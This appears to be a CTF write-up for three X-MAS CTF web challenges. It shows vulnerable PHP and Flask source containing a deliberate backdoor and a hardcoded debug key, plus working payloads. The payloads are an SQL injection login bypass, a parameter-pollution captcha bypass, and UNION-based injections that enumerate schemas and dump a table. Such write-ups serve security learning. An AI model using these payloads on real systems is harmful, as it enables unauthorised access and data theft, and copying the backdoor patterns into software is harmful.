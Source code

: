 # Web Exploits

## Sequel Fun

Easy sql injection

Relevant source code
```php
<?php
include ("config.php");
if (isset ($_GET['user']) && isset ($_GET['pass'])) {
  $user = $_GET['user'];
  $pass = $_GET['pass'];
  if (strpos ($user, '1') === false && strpos ($pass, '1') === false) {
    $conn = new mysqli ($servername, $username, $password, $dbname);
    $result = mysqli_query ($conn, "SELECT * FROM users WHERE user='" . $user . "' AND pass='" . $pass . "'", MYSQLI_STORE_RESULT); // TO-DO: Remove elf:elf account

    if ($result === false) {
      echo "<b>Our servers have run into a query error. Please try again later.</b>";
    } else {
      if ($result->num_rows !== 0) {
        $row = mysqli_fetch_array ($result, MYSQLI_ASSOC);

        echo "<h1>You are logged in as: " . $row["user"] . "</h1><br>";

        echo "<b class='flag'>";
        if ($row ["uid"] === "0")
          echo $flag;
        else
          echo "Welcome elf!";
        echo "</b>";

      } else {
        echo "<b>Login fail.</b>";
      }
    }
  } else {
    echo "<b>I don't like the number 1 :(</b>";
  }
} else {
  echo '<form class="center">
    <h1>Santa Login:</h1>
    <label>Username:</label> <input type="text" name="user" autocomplete="off"><br>
    <label>Password:</label> <input type="password" name="pass" autocomplete="off"><br>
    <input type="submit" value="Connect">
  </form>';
}
?>
```

Set username to `' OR uid = 0 #` and whatever to password

Flag: ```X-MAS{S0_1_c4n_b3_4dmin_w1th0ut_7h3_p4ssw0rd?}```

## Roboworld
> A friend of mine told me about this website where I can find secret cool stuff. He even managed to leak a part of the source code for me, but when I try to login it always fails :(
> Can you figure out what's wrong and access the secret files?
> Remote server: http://challs.xmas.htsp.ro:11000

Given file: leak.py
```py
from flask import Flask, render_template, request, session, redirect
import os
import requests
from captcha import verifyCaptchaValue

app = Flask(__name__)

@app.route('/')
def index():
    return render_template("index.html")

@app.route('/login', methods=['POST'])
def login():
    username = request.form.get('user')
    password = request.form.get('pass')
    captchaToken = request.form.get('captcha_verification_value')

    privKey = "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX" #redacted
    r = requests.get('http://127.0.0.1:{}/captchaVerify?captchaUserValue={}&privateKey={}'.format(str(port), captchaToken, privKey))
    #backdoored ;)))
    if username == "backd00r" and password == "catsrcool" and r.content == b'allow':
        session['logged'] = True
        return redirect('//redacted//')
    else:
        return "login failed"


@app.route('/captchaVerify')
def captchaVerify():
    #only 127.0.0.1 has access
    if request.remote_addr != "127.0.0.1":
        return "Access denied"

    token = request.args.get('captchaUserValue')
    privKey = request.args.get('privateKey')
    #TODO: remove debugging privkey for testing: 8EE86735658A9CE426EAF4E26BB0450E from captcha verification system
    if(verifyCaptchaValue(token, privKey)):
        return str("allow")
    else:
        return str("deny")
```

If you make a request to `/captchaVerify` endpoint with `privateKey=8EE86735658A9CE426EAF4E26BB0450E`, you will get `allow` regardless of `captcha value`

We need to make `/login` post endpoint call the `/captchaVerify` endpoint with our poisoned `captchaToken`

We need post body to be
```user=backd00r&pass=catsrcool&captcha_verification_value=A%26privateKey%3D8EE86735658A9CE426EAF4E26BB0450E```

which makes the login route do a request like
```
GET /captchaVerify?captchaUserValue=A&privateKey=8EE86735658A9CE426EAF4E26BB0450E&privateKey=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

When doing `privKey = request.args.get('privateKey')`
`privkey` gets set to our debug privateKey instead

Or in burp set to this params

![burp](https://i.imgur.com/Ul9WFlT.png)

Send it and u get redirected to 

![dashboard](https://i.imgur.com/B6UgUqh.png)

Open the wtf.mp4 can u get the flag reverse

<video width="320" height="240" controls>
  <source src="files/wtf.mp4" type="video/mp4">
</video>

Do a frame grab and manually mirror the flag or ocr or whatever method

![](https://i.imgur.com/YC7UA1G.png)

Flag: ```X-MAS{Am_1_Th3_R0bot?_0.o}```

## Execute no evil

```
!32302 0x4765726f6e696d6f or description=

!32302 0x4; or description=

!32302 0x4 UNION SELECT 1,2,3 or description=

!32302 0x41 or description like '%Cad' or description=

!32302 0x41 or description like '%Cad%' # or description=

!32302 0x4 UNION SELECT 1,2,3 from users where name =
```
> This one enumerate tables

```
!32302 0x4 UNION SELECT 1, table_schema as name ,table_name as description FROM information_schema.tables UNION SELECT 1,2,3 from users where name =  
```

> This one list columns

```
!32302 0x4 UNION SELECT 1, table_name as name, column_name as description FROM information_schema.columns WHERE table_name = 'flag' UNION SELECT 1,2,3 from users where name =
```

> This one dumps flags

```!32302 0x4 UNION SELECT 1, 2 as name, whatsthis as description FROM flag UNION SELECT 1,2,3 from users where name =
```

Flag : ```X-MAS{What?__But_1_Th0ught_Comments_dont_3x3cvt3:(}```